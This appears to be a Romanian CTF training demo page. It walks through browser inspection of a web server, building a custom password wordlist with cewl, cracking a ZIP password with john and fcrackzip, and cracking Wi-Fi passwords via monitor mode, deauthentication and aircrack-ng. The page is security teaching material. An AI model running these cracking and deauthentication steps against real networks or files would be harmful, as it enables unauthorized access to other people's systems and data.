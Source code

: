 ```yaml
---
title: ixodron 2024 - Demo 2
date: 2024-09-03 09:00:00
categories:
  - CTFs
  - ixodron 2024
  - 2. Demo
tags:
  - CTFs
  - ixodron 2024
  - Demo
toc: true
---
```


---
> Al doilea set de exerciții din seria de `Demo`-uri

---
<!-- more -->

<br>

## 1. Server web
> Executarea unor teste de securitate de bază pe un server web pentru a-i înțelege caracteristicile

**1.1. Codul sursă**
Deschide pagina în browser la adresa `https://chronossec.site`
Vezi codul sursă: `click-dreapta`, `View page source`

> **TASK**: Ce generator de site este folosit? Ce versiune este? (cuvinte cheie: `generator`, `version`)

<br>

**1.2. Developer tools - network tab**

Deschide Developer Tools: `Fn + F12` sau `CTRL+SHIFT+I`
Selectează `Network Tab`
Reîncarcă pagina pentru a vedea traficul de date: `CTRL+R`

> **TASK**: Selectează doar imagini și salvează logo-ul paginii.

<br>

**1.3. Developer tools - storage tab**

Deschide Developer Tools: `Fn + F12` sau `CTRL+SHIFT+I`
Selectează `Storage`
Vezi secțiunea de `Cookies`

> **TASK**: Șterge cookie-urile din browser.

<br>

**1.4. Certificat SSL**

Iconița cu lacăt 🔒
`Connection secure`
`More information`
`View certificate`

> **TASK**: Care este utilizarea cheii? (`Key usage`)


<br>
<br>


## 2. Parole personalizate
> Crearea unor liste de parole personalizate pentru ținta atacului

```bash
mkdir -p /home/kali/demo-1/wordlist/
cd /home/kali/demo-1/wordlist/
```

**Instalează aplicația `cewl`**
```bash
sudo apt install cewl -y
cewl --help
```

**Generarea unei liste de parole personalizate pentru site-ul web ales**
```bash
cewl https://chronossec.site -w wordlist.txt -m 5 -d 1 -v
```
| Argument  | Descriere |
| -- | -- |
| `-w wordlist.txt` | numele fisierului ce va fi generat |
| `-m 5` | numarul minim de caractere al cuvintelor selectate |
| `-d 1` | depth - adancimea linkurilor verificate |
| `-v` | verbose - detalii despre process |

**Verificarea listei de parole generate**
```bash
cat wordlist.txt
wc -l wordlist.txt
```


<br>
<br>


## 3. Arhiva ZIP
```bash
mkdir -p /home/kali/demo-1/archive
cd /home/kali/demo-1/archive
```
> Spargerea unei arhive protejate cu parolă
**Descarcă fișierul: <a href="https://chronossec.site/uploads/ixodron-ctf/demo-1/archive.zip" target="_blank">link</a>.**
```bash
wget https://chronossec.site/uploads/ixodron-ctf/demo-1/archive.zip /home/kali/demo-1/archive/archive.zip
```

**Extrage lista extensivă de parole, `rockyou.txt`**
```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

**Sparge parola**

- `Metoda 1`
> Folosim `zip2john` pentru a converti parola arhivei într-un format compatibil cu `john`.
```bash
zip2john archive.zip > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

- `Metoda 2`
> Utilizăm `fcrackzip` pentru atac de dicționar direct asupra arhivei.
```bash
sudo apt install -y fcrackzip
```
```bash
fcrackzip -D -v -u -p /usr/share/wordlists/rockyou.txt archive.zip
```
| Argument | Descriere|
| -- | -- |
| `-D` | atac tip Dicționar |
| `-v` | mai multe informații (verbos) |
| `-u` | încearcă să dezarhiveze cu fiecare parolă generată |
| `-p` | fișierul cu lista de parole |

**Extrage fișerul** (înlocuiește parola găsită)
```bash
unzip -P password archive.zip
```


<br>
<br>


## 4. Wi-Fi
> Spargerea parolei unei rețele Wi-Fi protejate

**4.1. Inserarea adaptorului de rețea (antena)**
<br>

**4.2. Configurarea interfeței de rețea**
```bash
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 down
iwconfig
```
```bash
sudo airmon-ng start wlan0
airmon-ng check kill
```

**4.3.Alegerea rețelei și clientului țintă**
```bash
sudo airodump-ng wlan0
```
```
sudo airodump-ng --bssid <INPUT> --channel <INPUT> --write capturefile wlan0
```

**4.4. Deauthentificarea clientului de la rețea**
> Dacă trimitem un număr mic de pachete de deautentificare, clientul nu-și va da seama că a fost deconectat, 
    iar noi vom putea intercepta direct parola criptată trimisă de acesta către router (access point)
```bash
sudo aireplay-ng --deauth 4 -a <target_MAC> -c <client_MAC> wlan0
```

**4.5. Spargerea parolei criptate**
```bash
sudo aircrack-ng capturefile.cap -w /usr/share/wordlists/rockyou.txt
```

<br>
<br>

<p style="text-align:center">
  <b>NEXT</b>: <a href="/CTFs/ixodron/ctf/" target="_blank">CTF</a>
</p>

---
---